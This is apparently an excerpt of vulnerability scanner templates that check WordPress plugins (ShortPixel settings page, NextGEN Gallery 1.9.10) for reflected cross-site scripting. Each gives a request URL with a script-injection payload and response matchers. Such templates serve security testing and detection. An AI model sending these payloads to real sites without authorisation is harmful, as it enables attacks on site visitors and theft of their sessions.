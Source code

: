 ```
GET /wp-admin/options-general.php?page=wp-shortpixel-settings&"><script>alert(1)</script> HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. &\">\<script>alert(1)\</script>&noheader=true&sp-action

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress NextGEN Gallery 1.9.10 - Cross-Site Scripting

## Description

- WordPress NextGEN Gallery 1.9.10 plugin contains a cross-site scripting vulnerability. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - wp-plugin,edb,wordpress,xss

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/nextgen-gallery/nggallery.php?test-head=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

### Matchers

**Type - word**

- words
  1. \</script>\<script>alert(document.domain)\</script>
- part - body
